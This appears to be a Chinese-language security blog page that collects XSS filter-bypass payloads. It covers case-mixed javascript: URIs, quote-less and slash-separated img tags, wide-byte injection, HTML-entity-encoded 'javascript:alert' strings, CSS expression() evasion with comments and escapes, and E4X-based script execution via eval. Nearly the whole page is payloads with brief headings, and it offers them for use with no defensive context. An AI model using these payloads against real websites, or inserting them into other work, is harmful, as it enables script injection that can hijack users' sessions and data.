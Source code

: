 ```yaml
---
layout: default
---
```

# ![](../img/hj.jpg)XSS绕过过滤

## ![](../img/github5.png)转换大小写
```
<IMg SrC="jAvascriPt:alert('XSS');">
```
## ![](../img/github6.png)不用双引号
```
<img src='javascript:alert(0);'>
```
## ![](../img/github7.png)不用引号
```
<img src=javascript:alert(0);>
```
## ![](../img/github8.png)/代替空格
```
<img/src='javascript:alert("XSS");'>
```
## ![](../img/github9.png)宽字节注入
```
%c0%22;alert(1);
```
## ![](../img/github10.png)利用字符编码
十进制形式：
```
&#106&#97或&#106、&#97、或&#106;、&#97;、
或&#0106&#097或&#00106&#0097或&#000106&#00097
```
javascript:alert('XSS')十进制为：
```
（用hackerbar的XSS的HTML Characters可自动转换）
&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#88&#83&#83&#39&#41&#59
```
exploit：
```
<img src="&#106&#97&#118&#97&#115&#99&#114&#105&#112&#116&#58&#97&#108&#101&#114&#116&#40&#39&#88&#83&#83&#39&#41&#59">
```
## ![](../img/github11.png)拆分跨站法
针对表格长度限制,通过变量:z=z+'..'   最后eval(z)
## ![](../img/github12.png)样式表中插入/**/注释或\\或\\0或转码
在样式表中这三个都会被浏览器忽略，/**/在正常js中也可以用
```
<img scr=''javas/*/*javascript*/script*/cript:alert('xss');''>
<div style="wi/*XSS*/dth:exp/*XSS*/ression(alert('XSS'));">
<div style="wi\dth:exp\0ression(alert('XSS'));">
<div style="width:\65xpression(alert('XSS'));">
<div style="width:\065xpression(alert('XSS'));">
<div style="width:\0065xpression(alert('XSS'));">
```
## ![](../img/github13.png)利用E4X
```
<script>
foo=<foo><id name="thx">x</id></foo>;		//注意，x没有引号包围
alert(foo.id.@name);										//访问属性用@符号，id可以省略直接如下：
alert(foo..@name);											//不过这个就不知道获得哪个节点的属性了
```
更进一步：
```
alert(<foo>hi</foo>);									//弹出hi，继续缩短代码，如下：
alert(<>hi</>);												//也弹出hi，注意hi没引号
</script>
```
这样就可以考虑把脚本放到XML数据中，如：
```
x=<>alert('hello')</>
//这句是无法自执行的，加个花括号就可以自执行了：
x=<>{alert('hello')}</>
eval(x+[])						//注意中括号[]不可少
```


__原创文章，转载请注明转载自[http://www.8pwn.com](http://www.8pwn.com)__

[返回上一层](./web)

